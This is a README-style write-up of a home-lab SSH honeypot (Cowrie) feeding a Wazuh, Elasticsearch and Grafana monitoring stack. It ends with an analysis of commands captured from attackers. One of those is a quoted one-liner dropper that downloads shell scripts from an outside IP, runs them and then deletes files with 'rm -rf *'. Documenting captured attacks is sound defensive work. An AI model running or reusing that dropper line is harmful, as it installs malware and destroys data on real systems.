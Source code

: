 
# Cowrie SSH Honeypot + Wazuh SIEM Stack Project

![Map](traffic-map.png)

## Table of Contents

- [Project Overview](#project-overview)
- [Lab Environment](#lab-environment)
- [Attacker Behavior & Investigation](#attacker-behavior--investigation)
- [Conclusion](#conclusion)


## **Project Overview**

This project involves deploying and monitoring a medium-interaction SSH honeypot using Cowrie, integrated with a centralized security monitoring and log analysis stack based on Wazuh and the Elastic Stack. The goal is to capture and analyze malicious SSH activity in real time, understand attacker behavior, and build a scalable detection and visualization pipeline using modern cybersecurity tools.

## **Lab Environment**
The project infrastructure is hosted on a **cloud-based OVH bare metal server** running **Proxmox** as the hypervisor. The internal environment includes:

- A **Cowrie SSH honeypot VM** running on Ubuntu-24.04 Live Server, with limited outbound traffic allowed only over essential ports (e.g., SSH).
- A **Wazuh stack server VM** running the Wazuh All-in-One Docker deployment, which includes Wazuh Manager, Elasticsearch, Logstash, and Filebeat.
- A **management VM** running on Ubuntu-24.04 Desktop for access to the Wazuh Dashboard and Grafana interface.
- A **pfSense firewall VM** controlling internal traffic flow to ensure the honeypot remains isolated except for required communication between the Wazuh agent and manager.

### **Honeypot Configuration**
The honeypot uses **Cowrie**, a medium-to-high interaction SSH honeypot designed to emulate a shell environment. It logs attacker activity such as:

- Both failed and successful login attempts
- Attempted usernames, passwords, and post-authentication commands
- Source IP addresses** for every attempt

### **Wazuh Stack**

The detection and monitoring system is deployed using the **Wazuh All-in-One Docker installer**, which sets up a complete SIEM stack in a containerized environment. This stack integrates components from the **Wazuh platform** and the **Elastic Stack**, providing centralized log collection, enrichment, alerting, storage, and visualization.

- **Wazuh Manager** – Collects log data from agents, applies decoders and rules, and generates alerts.  
- **Elasticsearch** – Stores structured log and alert data for search, correlation, and visualization.  
- **Filebeat** – Forwards alert data from Wazuh Manager to Logstash.
- **Logstash** – Enriches log data before indexing it in Elasticsearch.
- **Wazuh Dashboard** – Web interface built on Kibana for visualizing alerts, agent status, and logs.
- **Grafana** *(Added to replace Kibana)* – Used to build real-time custom dashboards with data from Elasticsearch.

A custom ruleset was created to ingest logs according to:
- Failed login attempts
- Successful logins (using Cowrie-accepted credentials)
- Command execution after login

### **Log Pipeline**
Logs follow this path:

1. Cowrie generates structured logs that record all activity.
2. The Wazuh Agent, installed on the honeypot VM, reads Cowrie’s log files and forwards them to the Wazuh Manager.
3. The Wazuh Manager parses the logs using our custom rules to generate alerts.
4. Alerts and enriched log data are sent to Elasticsearch for indexing.
5. Dashboards (Grafana or Wazuh’s own dashboard) query Elasticsearch to visualize the data.

![Diagram](Architecture-Diagram.png)


### **Visualization in Grafana**
Instead of Kibana, this project uses **Grafana** with the **Elasticsearch plugin** to create real-time dashboards. Although Kibana is commonly used with Elasticsearch, I chose Grafana for this project because my team at work is planning to adopt it soon. I wanted to get ahead by becoming familiar with the tool, and this project gave me a practical use case to start exploring its capabilities.

Visualizations include:
- Successful and failed login attempts
- Top attempted usernames
- Commands entered by attackers
- Geolocation map of source IPs
- Time-series analysis of login activity
- Attack volume by country
- Unique IPs per region

---

## **Attacker Behavior & Investigation**

The honeypot has been running for one week capturing live attack data. In this section, I will investigate specific IP addresses, analyze command sequences, and attempt to infer attacker intent based on behavior.

### 134.209.120.69 

According to abuseipd.com, this is a know malicious ip with over 14,000 reports. They seem to be leveraging the cloud as the IP is a digital ocean IP which makes me believe that they are running out of the Digital Ocean cloud or utilizing a private VPN running on Digital Ocean.
This attack most likely came from a bot considering the speed of the commands entered and the fact that I can find this attack replicated online.

The bot ran multiple commands that:
- Attempted to identify whether the system was a **router**, **SMS server**, or **crypto mining node**
- Searched for pre-existing malware or mining processes
- Issued a command to test if the environment was a functioning shell

Some of the more interesting commands they tried to execute include:

`/ip cloud print`
  
  Purpose: This command is not a standard Linux command. It's actually a command specific to MikroTik RouterOS. <br>
  What it does: It prints the public IP address and other cloud settings of the MikroTik device. <br>
  Why a malicious user may use it: If your server is running MikroTik RouterOS, this would help the attacker identify the external IP address of the device. 

`ps | grep '[Mm]iner'`

Purpose: Lists running processes and checks if a cryptocurrency miner is already running. <br>
Why a malicious user may use it: 
- To check if the system is already infected with a crypto miner. 
- To avoid conflict with another attacker's miner.
- To possibly kill competing miners and install their own.

`ls -la /dev/ttyGSM* /dev/ttyUSB-mod* /var/spool/sms/* /var/log/smsd.log /etc/smsd.conf* /usr/bin/qmuxd /var/qmux_connect_socket /etc/config/simman /dev/modem* /var/config/sms/*`

This command tried to list the files in multiple directories. The directories it was interested in was very interesting:

`/dev/ttyGSM*, /dev/modem*, /dev/ttyUSB-mod*`

What it is: These are device files typically associated with modems — especially GSM (cellular) or USB-based LTE sticks. <br>
Why a malicious user may use it: If the attacker finds a GSM modem, they might try to: 
- Send or receive SMS messages. 
- Exploit the modem to gain data connectivity. 
- Use the device for SMS spamming, phishing, or OTP interception. 

`/var/spool/sms/*, /var/log/smsd.log, /etc/smsd.conf*, /var/config/sms/* `

What it is: These paths are associated with SMS server software, especially smstools. Smstools allows a server to send/receive SMS messages via a connected modem. <br>
Why a malicious user may use it: They're checking if your server is acting as an SMS gateway. If so, they might try to hijack it to send bulk spam, fraud messages, or phishing attacks. 

`/usr/bin/qmuxd, /var/qmux_connect_socket, /etc/config/simman `

What it is: qmuxd is a daemon used in Qualcomm-based modems for managing communication between the OS and the cellular modem (via QMI). simman likely refers to SIM management tools on embedded Linux systems or routers. 

Why a malicious user may use it: This command is part of a targeted script that checks if your system: 
- Has a SIM card or LTE modem. 
- Is running an SMS gateway or cellular router setup. 
This allows them to potentially:
- Send spam SMS. 
- Intercept or forward OTPs (e.g., MFA codes). 
- Use your mobile data plan or IP address for shady traffic. 

This is common on IoT devices, industrial routers, and small embedded systems that get exposed to the internet (often unintentionally). 

### 206.189.80.159 

According to abuseipd.com, this is a known malicious ip with over 100 reports. Like the previous malicious IP we investigated, they also seem to be utilizing Digital Ocean cloud services to launch their attacks from.

This attacker only tried to run one command:

`cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://103.178.235.240/ohshit.sh; curl -O http://103.178.235.240/ohshit.sh; chmod 777 ohshit.sh; sh ohshit.sh; tftp 103.178.235.240 -c get ohshit.sh; chmod 777 ohshit.sh; sh ohshit.sh; tftp -r ohshit2.sh -g 103.178.235.240; chmod 777 ohshit2.sh; sh ohshit2.sh; ftpget -v -u anonymous -p anonymous -P 21 103.178.235.240 ohshit1.sh ohshit1.sh; sh ohshit1.sh; rm -rf ohshit.sh ohshit.sh ohshit2.sh ohshit1.sh; rm -rf *`

Purpose: The script first attempts to change directories to a series of locations on the local system (/tmp, /var/run, /mnt, /root, or /), presumably trying to find an accessible location to operate from.  It then tries to download a presumably malicous file using three different download methids (curl, tftp, and ftpget)


